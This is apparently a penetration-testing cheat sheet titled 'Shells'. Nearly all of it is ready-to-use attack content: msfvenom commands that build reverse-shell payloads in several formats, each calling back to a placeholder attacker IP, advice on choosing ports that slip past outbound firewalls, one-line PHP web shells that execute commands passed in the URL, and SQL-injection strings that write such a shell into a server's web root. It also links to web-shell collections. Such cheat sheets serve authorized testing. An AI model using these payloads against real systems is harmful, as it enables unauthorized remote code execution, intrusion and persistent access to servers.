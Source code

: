 # Shells 

# Reverse Shell Generator 
https://dc20e6.ru/tools/reverse-shell-generator 

Set your Netcat listening shell on an allowed port
Use a port that is likely allowed via outbound firewall rules on the target network, e.g. 80 / 443

# Msfvenom
#Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=443 -f elf > shell.elf
# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f raw > shell.php
# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=443 -f asp > shell.asp
# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f war > shell.war
# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f raw > shell.jsp
# Exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=445 -f exe -o shell_reverse.exe

# Interactive TTY Shell
# python
python -c 'import pty; pty.spawn("/bin/sh")'
# Echo
echo 'os.system('/bin/bash')'
# sh
/bin/sh -i
# bash
/bin/bash -i

# PHP
<?php system($_GET["cmd"]); ?>
<?php echo shell_exec($_GET["cmd"]); ?>




# Shell From SQL Injection
# windows
?id=1 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'
# linux
?id=1 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'




# Other Reverse Shell references
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://resources.infosecinstitute.com/icmp-reverse-shell/#gref

https://highon.coffee/blog/reverse-shell-cheat-sheet/

http://pentestmonkey.net/tools/web-shells/php-reverse-shell

http://pentestmonkey.net/tools/web-shells/perl-reverse-shell

https://github.com/BlackArch/webshells

https://github.com/tennc/webshell/tree/master/php/b374k

https://github.com/tennc/webshell/tree/master/php/PHPshell/c99shell

http://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/

http://securityweekly.com/2011/10/23/python-one-line-shell-code/

